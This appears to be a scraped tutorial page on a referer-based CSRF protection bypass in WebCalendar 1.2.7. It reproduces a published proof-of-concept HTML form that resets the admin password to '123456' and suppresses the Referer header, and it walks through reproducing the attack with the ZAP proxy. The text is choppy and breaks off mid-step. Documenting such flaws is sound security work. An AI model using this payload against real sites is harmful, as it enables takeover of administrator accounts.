









real flaw found in WebCalendar
WebCalendar 1.2.7 (
Download
sourceforge.net)
This vulnerability,
Validation
of Referer depends on header being present is been explained HEREThe WebCalendar CSRF flaw was
published by
@hyp3rlinx :
http://hyp3rlinx.altervista.org/advisories/WEBCALENDAR-V1.2.7-CSRF-PROTECTION-BYPASS.txtPOC
CSRF Protection Bypass to change Admin passwordWe will use this as the basis for our exploit, note
that the username of the victim is required for success
<meta name="referrer" content="none">
<form id="CSRF" action="http://localhost/WebCalendar-1.2.7/edit_user_handler.php"
method="post">
<input type="hidden" name="formtype" value="setpassword" />
<input type="hidden" name="user" value="admin" />
<input name="upassword1" id="newpass1" type="password" value="123456" />
<input name="upassword2" id="newpass2" type="password" value="123456" />
</form>
1. Login to the vulnerable Website
2. Go to Settings → MyProfile
3. Set a new password
 4. In ZAP:Double-click on the POST to
https://example.org/webcalendar/edit_user_handler.php
Then check “Request” to take note of the referer:
Referer: https://example.org/webcalendar/edit_user.php 5. Right-click on the POST and choose "Generate Anti CSRF Test
FORM"
  Click on Submit
6. This worked because WebCalendar attempts to uses
the HTTP Referer to check that requests are originating from same server… However, this can be easily
defeated by just not sending a referer ZAP does not set a referer
via the Anti-CSRF Test Form, and a blank referer also passes WebCalendar's (weak) check.
If fact we can
check that there is not a "Referer" in the POST sent by the Anti-CSRF Test Form
6.